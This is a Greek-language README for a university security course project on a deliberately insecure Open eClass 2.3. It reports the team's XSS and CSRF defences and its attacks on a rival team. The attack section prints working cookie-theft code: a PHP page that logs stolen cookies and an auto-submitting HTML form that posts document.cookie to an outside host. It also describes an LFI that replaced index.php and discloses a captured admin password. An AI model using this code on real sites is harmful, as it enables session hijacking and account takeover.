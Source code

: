 ## Open eClass 2.3

Το repository αυτό περιέχει μια __παλιά και μη ασφαλή__ έκδοση του eclass.
Προορίζεται για χρήση στα πλαίσια του μαθήματος
[Προστασία & Ασφάλεια Υπολογιστικών Συστημάτων (ΥΣ13)](https://crypto.di.uoa.gr/csec/), __μην τη
χρησιμοποιήσετε για κάνενα άλλο σκοπό__.


## 2020 Project 1

Εκφώνηση: https://crypto.di.uoa.gr/csec/assets/projects/project1.pdf


### Μέλη ομάδας

- 1115201500038, Ευαγγελινού Ευστρατία 
- 1115201400297, Ματάνις Παναγιώτης

### Report

Συμπληρώστε εδώ __ένα report__ που
- Να εξηγεί τι είδους αλλαγές κάνατε στον κώδικα για να προστατέψετε το site σας (από την κάθε επίθεση).
- Να εξηγεί τι είδους επιθέσεις δοκιμάσατε στο αντίπαλο site και αν αυτές πέτυχαν.


### DEFENCES:

#### __XSS:__
Καταρχάς ελέγχηκε ο κώδικας του site σε οποιοδήποτε σημείο δινόταν είσοδος από τον χρήστη, κάποιον καθηγητή ή τον διαχειριστή (διάφορες φόρμες που υπήρχαν για στοιχεία, τίτλοι, ονόματα κλπ) για τυχόν αδυναμίες σε xss attacks. Προβλήματα εντοπίστηκαν στην πλειοψηφία των σημείων που εκτυπωνόταν η δοθείσα από το χρήστη τιμή και αντιμετωπίστηκαν με την χρήση της htmlspecialchars στο σημείο εξαγωγής τους από την βάση, για συλλογές στοιχείων αντικαταστάθηκε το η συλλογή στο σύνολο της. Το εν λόγω μέτρο προστασίας εφαρμόστηκε και σε διάφορα σημεία τα οποία εκ πρώτης όψης δεν παρουσίασαν κάποια αδυναμία σε επιθέσεις τέτοιου τύπου. Όσον αφορά την διαχείριση των αρχείων  επιλέξαμε να κάνουμε “υποχρεωτικό” το download απο τον χρήστη ώστε να μην μπορεί να εκτελεστεί το περιεχόμενο τους, όπως πχ γινόταν με αρχεία html. 

#### __SQL INJECTION:__
Όσον αφορά την συγκεκριμένη επίθεση μετά από διάφορες δοκιμές σε σημεία του site δεν βρέθηκε κάποια ευπάθεια, οπότε δεν έγινε και κάποια αλλαγή ως προς αυτό το κομμμάτι.

#### __CSRF:__
Η προστασία που επιλέχθηκε για την συγκεκριμένη επίθεση είναι αυτή της χρήσης ενός anti-CSRF  token. Το token δημιουργείται τυχαία κατά την έναρξη του κάθε session, είναι ξεχωριστό για το καθένα και αποθηκεύεται σε αυτό. Υπάρχει σε όλα τα σημεία που ο διαχειριστής μπορεί να εκτελέσει κάποια λειτουργία με την μορφή hidden input στην φόρμα και σε περίπτωση αποτυχίας συμπλήρωσης του κάνει exit() χωρίς να πραγματοποιηθεί καμία αλλαγή.
 

### ATTACKS:
Η αντίπαλη ομάδα ήταν οι 1337-h4x0rz. Οι επιθέσεις που δοκιμάστηκαν είναι οι παρακάτω

#### XSS:
Αρχικά δοκιμάστηκαν όλες οι φόρμες που είχαμε βρει από το δικό μας site ότι ήταν ευάλωτες σε τυχόν τέτοιες αδυναμίες, προσπαθώντας να εκτελέσουμε δικό μας κώδικα στην σελίδα. Καταφέραμε να εισάγουμε script σε διάφορα σημεία παρόλαυτα επιλέξαμε την ανταλλαγή αρχείων ως “κεντρικό” σημείο επίθεσης καθώς μας δινόταν η δυνατότητα να ανεβάσουμε αρχεία. 

#### CSRF:
Η συγκεκιμένη επίθεση συνδυάστηκε με την παραπάνω αδυναμία της ανταλλαγής αρχείων. Αρχικά το puppies διαμορφώθηκε με κατάλληλο τρόπο ώστε κάτα την είσοδο σε αυτό να ανακατευθύνει το χρήστη στην σελίδα της ανταλλαγής αρχείων πατώντας το συγκεκριμένο κακόβουλο αρχείο που είχε ανέβει. Το αρχείο με την σειρά του ανακατεύθυνε τον χρήστη πίσω στο puppies στέλνοντας ταυτόχρονα και το cookie του χρήστη. Το cookie αποθηκευόταν στο σέρβερ μας και το url της σελίδας άλλαζε ώστε να μην είναι δυνατόν για το χρήστη να καταλάβει ότι πέρασε από το eclass. Έπειτα χρησιμοποιώντας το cookie του admin συνδεθήκαμε ως διαχειριστές στην πλατφόρμα από όπου και πήραμε τον κώδικό της αντίπαλης ομάδας από το αρχείο ρυθμίσεων (**admin password: znEwSz57Qk**). 

* Puppies index.php:
```php
<html><body>
<h1><?= "Puppies!" ?></h1>
<img src="https://i.ytimg.com/vi/DhpYAyVsFXQ/hqdefault.jpg"></img>

<?php
    $cookie = $_POST["c"];
    
    /* Αν υπάρχει το cookie γράφετε στο log.txt*/
    if(isset($cookie)) {
        $file = fopen('log.txt', 'a');
        fwrite($file, $cookie. "\n\n");
    }
    else { /* Αν δεν υπάρχει cookie γίενται redirect στο redirect.html που είναι ανεβασμένο στην ανταλλαγη αρχείων του αντιπάλου */
        header ('Location:http://1337-h4x0rz.csec.chatzi.org/modules/dropbox/dropbox_download.php?id=14');
    }
?>
</body></html>
```

* Το αρχείο που ανεβάσαμε στην ανταλλαγή αρχείων. Κάνει redirect στο puppies στέλνοντας μαζί και το cookie: 
```html
<!-- redirect.html -->
<body onload='get_cookie()'>
<form method="post" action="http://xxx--cookielover--xxx.puppies.chatzi.org">
	<input type="hidden" name="c" id="c" value=''><br>
</form>

<script type="text/javascript">
      function get_cookie(){
      	 document.getElementById("c").value = document.cookie;
      	 document.forms[0].submit();
      }
</script>

</body>
```

Πέρα από αυτή την επίθεση δοκιμάσαμε στο τοπικό μας μηχάνημα καθώς και στην online έκδοση του eclass μια σειρά από επιθέσεις για δημιουργία/επεξεργασία μαθημάτων, τμημάτων, αποδοχή αιτήσεων καθηγητών κ.ά. Παρόλαυτα εφόσον πέτυχε η πρώτη επίθεση και βρέθηκε ο κωδικός του διαχειριστή δεν δοκιμαστηκαν περαιτέρω επιθέσεις μέσω του drunkadmin. Επισυνάπτονται οι επιθέσεις που δημιουργήθηκαν. 

#### LFI:
Η συγκεκριμένη επίθεση χρησιμοποιήθηκε για να παρακαμφθεί ο περιορισμός που υπήρχε απο το site και εκτελούσε download ενός αρχείου, που είχε ανέβει μέσω της εργασίας, όταν ο χρήστης κλίκαρε σε αυτό. Βρίσκοντας τον χώρο που ήταν αποθηκευμένα τα αρχεία καταφέραμε να εκτελέσουμε ενα php αρχείο το οποίο μετόνομασε το index.php σε index2.php και στην συνέχεια με αντίστοιχο τρόπο μετονομάσαμε ένα δικό μας αρχείο σε index.php, το οποίο είχε προστεθεί στο φάκελο των εργασιών από δεύτερο χρήστη. 
* Το σημείο που χρησιμοποιήσαμε για να εκτελέσουμε το php αρχείο που αλλάζει το index.php του eclass:
![LFI Attack](https://scontent.fath3-3.fna.fbcdn.net/v/t1.15752-9/95477098_245203889895725_8195861322433298432_n.png?_nc_cat=104&_nc_sid=b96e70&_nc_ohc=Oi_lGJH3SxsAX8yYTEx&_nc_ht=scontent.fath3-3.fna&oh=7a3295878d32b2d5d9e5d8e77889ce28&oe=5ED15B6D)





